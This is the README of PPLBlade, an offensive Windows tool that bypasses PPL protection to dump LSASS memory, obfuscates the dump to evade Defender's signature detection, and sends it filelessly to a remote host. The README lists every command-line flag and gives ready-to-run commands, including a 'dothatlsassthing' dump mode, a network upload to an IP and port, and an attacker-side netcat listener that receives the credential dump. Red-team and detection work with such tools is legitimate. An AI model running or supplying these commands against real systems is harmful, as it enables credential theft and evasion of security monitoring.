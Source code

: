 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk(fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe.

It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

Modes:
1) Dump - Dump process memory using PID or Process Name
2) Decrypt - Revert obfuscated(--obfuscate) dump file to its original state
3) Cleanup - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) DoThatLsassThing - Dump lsass.exe

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234 --handle procexp --name lsass.exe`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

